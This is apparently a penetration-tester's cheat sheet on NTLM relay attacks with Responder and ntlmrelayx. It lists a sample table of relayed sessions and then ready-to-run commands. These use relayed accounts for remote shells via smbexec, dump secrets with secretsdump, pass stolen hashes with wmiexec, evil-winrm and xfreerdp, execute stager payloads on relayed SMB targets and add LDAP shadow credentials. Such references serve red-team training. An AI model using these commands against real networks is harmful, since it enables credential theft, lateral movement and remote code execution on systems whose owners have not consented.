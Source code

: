 # Utilizing Sock sessions with Responder and NtlmRelayX

```
ntlmrelayx> socks
Protocol  Target          Username                  Port
--------  --------------  ------------------------  ----
SMB       172.21.48.38   SPAWN/MSIMMONS            445
MSSQL     172.21.48.230  FAERIE/ADMINISTRATOR      1433
MSSQL     172.21.48.230  FAERIE/ROOT               1433
SMB       172.21.48.230  FAERIE/ADMINISTRATOR      445
SMB       172.21.48.230  FAERIE/ALSIMMONS          445
SMTP      172.21.48.225  FAERIEEXCHANGE/SBURKE     25
SMTP      172.21.48.225  FAERIEEXCHANGE/TWILLIAMS  25
IMAP      172.21.48.225  FAERIEEXCHANGE/TMCFARLANE 143
```

# Testing Sock Access from NtlmRelayX: 
## SMB:
Using SMBExec:
- proxychains4  impacket-smbexec SPAWN/MSIMMONS@172.21.48.38
- proxychains4  smbexec.py SPAWN/MSIMMONS@172.21.48.38
Using Smbclient
- proxychains4 impacket-smbclient SPAWN/MSIMMONS@172.21.48.38
- proxychains4 smbclient.py SPAWN/MSIMMONS@172.21.48.38

## Secrets Dump
- proxychains4  impacket-secretsdump SPAWN/MSIMMONS@172.21.48.38
- proxychains4  secretsdump.py SPAWN/MSIMMONS@172.21.48.38

## Pass The Hash:
If you obtain hashes from ntlmrelayx you can use the ntlm hash to gain access to a target using the following scripts or tools: 

Impacket Wmiexec:
- impacket-wmiexec -hashes ' INSERT HASH HERE' administrator@172.21.48.230
- wmiexec.py -hashes ' INSERT HASH HERE' administrator@172.21.48.230

Evil-WinRM:
- evil-winrm -u Administrator -H 'INSERT HASH HERE' -i 172.21.48.230

XfreeRDP: 
- xfreerdp /u:Administrator /pth:'INSERT HASH HERE' /v:172.21.48.230

# Other NtlmRelayX Commands: 
## In Kali:
### SMB
- impacket-ntlmrelayx -socks -smb2support -tf smb-targets.txt -c <Stager/Stageless Payload>
- impacket-ntlmrelayx -socks -smb2support -tf smb-targets.txt -c whoami
### Ldap
- impacket-ntlmrelayx -t ldap://dc.domain.local --shadow-credentials --shadow-target target\$

## Python Impacket: 
### SMB
- ntlmrelayx.py -socks -smb2support -tf smb-targets.txt -c <Stager/Stageless Payload>
- ntlmrelayx.py -tf smb-targets.txt -c whoami
### LDAP
- ntlmrelayx.py -t ldap://dc.domain.local --shadow-credentials --shadow-target target\$

# References: 
- https://www.hackingarticles.in/a-detailed-guide-on-responder-llmnr-poisoning/
-  https://infosecwriteups.com/abusing-ntlm-relay-and-pass-the-hash-for-admin-d24d0f12bea0
-  https://www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022/
- https://www.offsec-journey.com/post/attacking-ms-sql-servers